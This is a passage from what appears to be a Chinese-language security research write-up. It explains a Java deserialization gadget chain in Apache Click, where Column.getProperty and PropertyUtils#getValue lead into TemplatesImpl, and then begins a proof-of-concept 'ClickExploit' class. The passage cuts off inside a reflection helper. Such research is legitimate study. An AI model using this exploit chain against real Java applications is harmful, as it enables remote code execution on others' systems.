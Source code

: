 在比较时又会调用`this.column`的`getProperty`方法, 并且当`row`不是`map`类型的情况下, 这个方法会调用到`PropertyUtils`的`getValue`方法获取值, 此时就可以利用上文提到的: `PropertyUtils#getValue`方法触发指定属性的`getter`方法, 进而触发`TemplatesImpl`链的利用方式.

<div align=center><img src="./images/2.png"></div>

# POC

```java
package org.h3rmesk1t.Click;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.click.control.Column;
import org.apache.click.control.Table;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 12:59 上午
 */
public class ClickExploit {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
```